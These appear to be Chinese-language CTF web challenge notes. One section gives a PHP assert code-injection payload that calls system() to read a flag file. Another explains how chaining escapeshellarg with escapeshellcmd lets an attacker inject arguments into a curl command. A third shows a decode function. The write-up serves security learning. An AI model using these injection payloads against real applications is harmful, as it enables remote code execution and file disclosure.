 ![image](http://note.youdao.com/yws/res/1364/59BFF5912B1B447DB4EA0AD583FB5F92)

转而用delete.php可能是因为download.php过滤了flag字样

## mfw

.git下载源码

```
assert("strpos('$file', '..') === false") or die("Detected hacking attempt!");
```

payload: ?page=1') or system("cat templates/flag.php");//


## web2

```
/*
   逆向加密算法，解密$miwen就是flag
*/

function decode($str){
    $s = base64_decode(strrev(str_rot13($str)));
    for($a = 0; $a < strlen($s); $a++){
        $b=substr($s,$a,1);
        $c=ord($b)-1;
        $b=chr($c);
        $f=$f.$b;
    }
    return strrev($f);
}
echo decode($miwen);

?> 

```

## asis_2019_unicorn_shop

## online_tool

![image](http://note.youdao.com/yws/res/1382/54EDC0DF09B64D9798DFF70779A8C18F)

1.经过escapeshellarg处理后变成了`'172.17.0.2'\'' -v -d a=1'`，即先对单引号转义，再用单引号将左右两部分括起来从而起到连接的作用。

2.经过escapeshellcmd处理后变成`'172.17.0.2'\\'' -v -d a=1\'`，这是因为escapeshellcmd对\以及最后那个不配对儿的引号进行了转义

3.最后执行的命令是` '172.17.0.2'\\'' -v -d a=1\' `，由于中间的\\被解释为\而不再是转义字符，所以后面的'没有被转义，与再后面的'配对儿成了一个空白连接符。所以可以简化为curl 172.17.0.2\ -v -d a=1'，即向172.17.0.2\发起请求，POST 数据为a=1'。

https://blog.csdn.net/weixin_44077544/article/details/102835099
